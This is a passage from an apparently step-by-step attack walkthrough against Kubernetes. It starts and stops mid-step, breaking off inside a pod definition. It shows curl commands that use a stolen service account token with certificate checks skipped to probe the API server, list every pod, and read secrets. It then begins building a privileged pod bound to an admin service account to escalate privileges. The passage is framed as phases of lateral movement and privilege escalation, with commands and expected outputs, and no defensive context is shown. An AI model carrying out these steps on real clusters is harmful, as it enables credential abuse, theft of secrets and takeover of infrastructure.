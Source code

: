     **Explanation:** This command uses `curl` to make an API request to the Kubernetes API server.  The `-k` flag skips SSL certificate verification (useful in some environments, but not recommended for production).  The `Authorization` header includes the stolen service account token. The API request attempts to retrieve information about the current namespace that the pod is running in.
    **Expected Output:** If the token is valid and the service account has sufficient permissions to view the namespace details, you'll receive a JSON response containing information about the namespace.  If you receive a `401 Unauthorized` error, the token is invalid or the service account lacks the necessary permissions. If you receive a `403 Forbidden` error, the service account lacks permissions to the requested resource.
    **Contribution:** This step confirms that the token is valid and allows you to assess the initial level of access granted to the service account. A 403 error here doesn't necessarily mean the vulnerability is not exploitable, only that this particular resource requires more permissions than the stolen service account currently has.  Further exploration is needed to identify exploitable permissions.

**Phase 2: Lateral Movement and Privilege Escalation (Example: Accessing Secrets)**

5.  **Enumerate Permissions (If Not Already Known):** While this step isn't always necessary, it is useful to enumerate the resources the service account has access to. This can be done by attempting to access various resources and observing the response. We'll start by attempting to list all pods in the cluster.

    ```bash
    curl -k -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" $API_SERVER/api/v1/pods --get --data-urlencode 'limit=500'
    ```

   **Explanation:** Attempts to list all pods in the cluster.
   **Expected Output:** A long JSON output if the token is valid and the service account has enough permissions to list pods.  A 403 error would mean not enough permissions.

6.  **Attempt to Read Secrets:**  Now, let's assume the service account has read access to secrets in the `default` namespace. We'll attempt to read a specific secret named `my-secret`.

    ```bash
    SECRET_NAME="my-secret" # Replace with an existing secret name
    curl -k -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" "$API_SERVER/api/v1/namespaces/$NAMESPACE/secrets/$SECRET_NAME"
    ```

    **Explanation:** This command uses `curl` to retrieve the secret named `my-secret` from the `default` namespace.
    **Expected Output:**  If the service account has read access to the secret, the command will return a JSON response containing the secret data. If you receive a 403 error, the service account lacks the necessary permissions.  If `my-secret` doesn't exist, a 404 error is expected.
    **Contribution:** This demonstrates how the stolen token can be used to access sensitive data stored in Kubernetes secrets. If the secret contains credentials or other sensitive information, it can be used to further compromise the cluster or external systems.

7.  **Create a Pod with Increased Privileges (If Allowed):**  If the service account has permissions to create pods, an attacker might attempt to create a new pod with a higher-privileged service account or with hostNetwork/hostPath access, further escalating their privileges.

    ```bash
    POD_DEFINITION='{
      "apiVersion": "v1",
      "kind": "Pod",
      "metadata": {
        "name": "privileged-pod"
      },
      "spec": {
        "serviceAccountName": "admin-service-account",
        "containers": [
          {
            "name": "shell",
            "image": "busybox:latest",
            "securityContext": {
                "privileged": true